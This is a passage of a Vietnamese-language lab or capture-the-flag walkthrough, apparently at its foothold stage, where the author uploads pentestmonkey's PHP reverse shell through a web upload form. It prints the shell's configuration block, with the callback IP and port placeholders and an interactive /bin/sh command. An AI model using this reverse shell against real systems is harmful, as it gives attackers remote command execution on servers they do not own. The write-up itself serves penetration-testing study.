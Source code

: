 ![alt text](image-15.png)

Cuối cùng cũng có thể truy cập vào form tải lên.

## Foothold

Bây giờ đã có quyền truy cập vào biểu mẫu tải lên, chúng ta có thể thử tải lên một `PHP` reverse shell. Thay vì tạo riêng một shell, sử dụng một shell hiện có.

Trong Parrot OS, có thể tìm thấy webshell trong thư mục /usr/share/webshells/, tuy nhiên, nếu không có, có thể tải xuống từ https://github.com/BlackArch/webshells.

Đối với bài tập này sẽ sử dụng /usr/share/webshells/php/php-reverse-shell.php.

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//

<SNIP>
  
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS WITH YOUR IP
$port = 1234;       // CHANGE THIS WITH YOUR LISTENING PORT
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

<SNIP>

?>
```
